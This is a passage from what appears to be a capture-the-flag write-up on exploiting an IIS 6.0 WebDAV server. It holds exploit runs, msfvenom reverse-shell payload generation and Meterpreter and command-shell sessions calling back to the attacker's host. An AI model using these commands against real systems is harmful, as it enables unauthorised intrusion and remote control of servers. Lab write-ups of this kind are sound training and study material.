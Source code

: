 
Now I can run the exploit:

    
    
    root@kali# python explodingcan.py http://10.10.10.14 shellcode_rev_10.10.14.47_443
    [*] Using URL: http://10.10.10.14
    [*] Server found: Microsoft-IIS/6.0
    [*] Found IIS path size: 18
    [*] Default IIS path: C:\Inetpub\wwwroot
    [*] WebDAV request: OK
    [*] Payload len: 2190
    [*] Sending payload...
    

I get a connection at `nc`, but it immediately dies:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.14.
    Ncat: Connection from 10.10.10.14:1037.
    

I did some experimenting, and the Meterpreter payload works fine:

    
    
    root@kali# msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.47 LPORT=443 > shellcode_msf_10.10.14.47_443
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/alpha_mixed
    x86/alpha_mixed succeeded with size 744 (iteration=0)
    x86/alpha_mixed chosen with final size 744
    Payload size: 744 bytes    
    

Running it now results in:

    
    
    msf5 exploit(multi/handler) > run
    [*] Started reverse TCP handler on 10.10.14.47:443 
    [*] Sending stage (176195 bytes) to 10.10.10.14
    [*] Meterpreter session 1 opened (10.10.14.47:443 -> 10.10.10.14:1034) at 2020-05-27 16:54:40 -0400
    
    meterpreter > getuid
    Server username: NT AUTHORITY\NETWORK SERVICE
    

But even switching to a staged shell and catching it in `msfconsole` resulted
in the same behavior, death instantly:

    
    
    msf5 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.47:443 
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.14
    [*] Command shell session 3 opened (10.10.14.47:443 -> 10.10.10.14:1038) at 2020-05-27 17:15:40 -0400
    